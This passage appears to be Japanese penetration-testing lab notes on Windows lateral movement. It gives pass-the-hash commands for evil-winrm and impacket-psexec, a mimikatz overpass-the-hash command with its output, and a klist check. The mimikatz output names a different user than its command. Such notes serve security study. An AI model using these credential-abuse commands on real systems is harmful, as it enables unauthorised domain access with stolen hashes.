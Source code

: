 - **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

```bash
evil-winrm -i 192.168.158.57 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 
```

#### impacket-psexec

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 Administrator@192.168.158.57
```



### Overthehash

NTLM のユーザハッシュを「over」use して、**完全な Kerberos チケット付与チケット(TGT)を取得し、この TGT を用いて、チケット付与サービス(TGS)を取得することができる。**

Over the HashもAdmin$という特別な管理者共有へのアクセスが必要なため、ターゲットマシンのローカル管理者権限が必要となる

mimikatzでover the hashする

```cmd
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe

user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

overthehashではKerberosチケットを発行するだけなのでwhoamiは元のユーザのままとなる。成功可否はKerberosチケットの有無で確認する

```powershell
PS C:\Windows\system32> klist
Current LogonId is 0:0x186536
Cached Tickets: (0)
```
